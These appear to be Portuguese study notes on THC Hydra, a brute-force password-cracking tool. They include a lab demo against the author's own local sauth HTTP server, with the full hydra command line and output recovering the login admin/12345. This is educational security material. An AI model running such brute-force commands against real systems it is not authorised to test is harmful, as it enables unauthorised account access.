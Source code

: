 THC Hydra

- Ferramenta de cracking de senhas utilizando da técnica de força bruta
- Protocolos de suporte FTP, HTTP, SSH, entre outros
- Código aberto no github, construido na linguagem C
- Pode receber como parâmetro uma lista de senhas para fazer os testes de senha e automatizar o processo de teste de senha 

Normalmente utilizado em ambientes unix, mas é cross platform
Pode ser instalado, no Kali Linux vem instalado por padrão

Subir um servidor http com sauth no windows (biblioteca python que levanta um server http e autentica a rota raiz): 
sauth admin 12345

Rodar o hydra com os parâmetros a seguir:

sudo hydra -v -L arq.txt -P arq2.txt 192.168.1.11 -s 8333 http-get

Saída recebida:

Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-05-16 22:43:49
[WARNING] You must supply the web page as an additional option or via -m, default path set to /
[DATA] max 1 task per 1 server, overall 1 task, 1 login try (l:1/p:1), ~1 try per task
[DATA] attacking http-get://192.168.1.11:8333/
[VERBOSE] Resolving addresses ... [VERBOSE] resolving done
[8333][http-get] host: 192.168.1.11   login: admin   password: 12345
[STATUS] attack finished for 192.168.1.11 (waiting for children to complete tests)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-05-16 22:43:50

Ou seja ele, encontrou o login com admin e senha 12345


https://medium.com/liveonnetwork/hydra-tryhackme-f3efb6658ac0